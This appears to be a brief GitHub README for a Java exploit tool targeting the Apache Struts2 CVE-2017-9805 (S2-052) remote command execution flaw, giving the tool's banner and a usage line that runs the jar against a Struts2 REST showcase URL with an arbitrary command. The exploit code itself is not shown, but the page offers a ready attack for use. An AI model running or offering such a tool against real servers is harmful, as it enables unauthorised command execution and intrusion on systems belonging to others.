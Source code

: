 # CVE-2017-9805 （S2-052） Exploit For Nc

## Options

```
 [*] Apache Struts2 CVE-2017-9805 (S2-052) - Exploit
 [*] 0day Info:https://secfree.com/article-333.html
 [*] Use:        <targetUrl> <command>
 [*] Author:  www.secFree.com Team By Bearcat
```

## Usage

`java -jar CVE-2017-9805-Exploit.jar http://192.168.199.246:8080/struts2-rest-showcase/orders.xhtml "command"`

![exploit](https://github.com/iBearcat/S2-052/blob/master/exploit.jpg?raw=true)
